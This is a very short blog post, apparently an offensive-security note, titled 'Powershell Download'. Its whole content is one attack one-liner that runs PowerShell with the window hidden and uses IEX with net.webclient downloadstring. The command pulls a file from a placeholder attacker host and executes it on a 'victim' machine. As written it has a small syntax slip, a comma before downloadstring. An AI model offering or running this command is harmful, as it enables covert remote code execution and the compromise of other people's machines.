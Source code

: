 ```yaml
---
layout: post
title: "Powershell Download"
date: 2017-06-23
---
```

<p>
host file on a webpage. use this command to download file to victim
<p>
<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://&lt;ip&gt;:&lt;port&gt;/&lt;file&gt;'))"</code></p>
</p>
